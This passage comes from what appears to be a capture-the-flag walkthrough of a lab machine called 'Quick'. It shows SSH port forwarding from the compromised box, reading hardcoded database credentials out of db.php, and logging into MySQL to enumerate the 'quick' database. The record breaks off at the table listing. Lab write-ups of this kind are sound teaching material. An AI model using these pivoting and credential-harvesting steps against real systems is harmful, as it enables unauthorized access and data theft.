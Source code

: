 ![Apache config file](https://jackhack.se/assets/images/quick/printv2.png)
{: .full}
By making a new SSH connection and port forwarding port 80 on the victim machine to my kali, i can check out the page on my local machine. 

~~~
┌──(kali@kali)-[~/boxes/quick]
└─$ sudo ssh sam@quick.htb -i sam_rsa -L 80:127.0.0.1:80
~~~
{: .language-bash}
Adding the domain to my */etc/hosts* file and checking it out:

![Printer page](https://jackhack.se/assets/images/quick/printer_page.png)
{: .full}
I got stuck here for a while aswell, but by carefully enumerating enough i finally found some database-credentials in a file called db.php located in */var/www/html*

~~~
sam@quick:/var/www/html$ ls
clients.php  db.php  home.php  index.php  login.php  search.php  ticket.php
sam@quick:/var/www/html$ cat db.php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
sam@quick:/var/www/html$
~~~
{: .language-bash}

Connecting to the database and dumping the users table:

~~~
sam@quick:/var/www/html$ mysql -h localhost -u db_adm -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 55
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| quick              |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use quick
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_quick |
~~~